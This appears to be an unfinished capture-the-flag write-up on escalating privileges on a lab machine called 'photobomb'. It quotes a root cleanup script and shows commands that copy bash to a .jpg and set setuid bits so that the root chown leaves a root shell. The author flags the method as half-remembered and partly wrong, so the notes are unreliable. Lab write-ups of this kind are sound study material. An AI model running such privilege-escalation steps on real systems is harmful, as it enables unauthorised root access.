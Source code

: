 [Paused video here](https://www.youtube.com/watch?v=-4asq6Tldf0&t=611s)

Wizrad users is a created user for the box and is not a a default install or service intalled user.
![](wizarduser.png)

This user has a home directory so was created with box deployment/installation as inital user.
![](withhomedir.png)

Research 
- env_reset 
	- Used to reset the env after completing use of sudo
- mail_badpass
	- Sends mail to bad sudo usages.

We are running this as root
```bash
#!/bin/bash
# /opt/cleanup.sh

. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Make a priceless shell with /bin/bash with setuid then let the script change it to be owned by root. 
- Incorrect chown resets any special setuid permission because you are change a user context.

## PrivEsc

```bash
cd /home/wizard/photobomb/source_images
cp /bin/bash pricelessprivesc.jpg
# becuase I trying to do this from memory
# We may need more than just +s to exec or change ext
chmod 777 pricelessprivesc.jpg
chmod +s pricelessprivesc.jpg
```

But we need to configure the env_reset to prevent loss of sudo env
- Incorrect as env_reset just reset env

Incoming... https://superuser.com/questions/232231/how-do-i-make-sudo-preserve-my-environment-variables and beyond...
